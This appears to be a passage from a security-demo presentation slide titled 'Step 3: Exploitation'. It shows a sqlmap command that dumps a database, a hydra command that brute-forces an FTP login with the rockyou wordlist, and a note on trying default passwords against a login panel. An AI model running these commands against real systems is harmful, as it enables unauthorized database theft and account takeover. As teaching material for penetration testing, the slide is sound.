

Step 3: Exploitation

Attacks Performed:

 SQLMap to dump database:
  sqlmap -u "http://site.com?id=1" –dump

 Hydra to brute-force FTP:
  hydra -l admin -P rockyou.txt ftp://IP

 Manual Login Panel Attack: Using guessed/default passwords

  Result:
  Gained access to sample DB
  Got weak login credentials (demo purposes)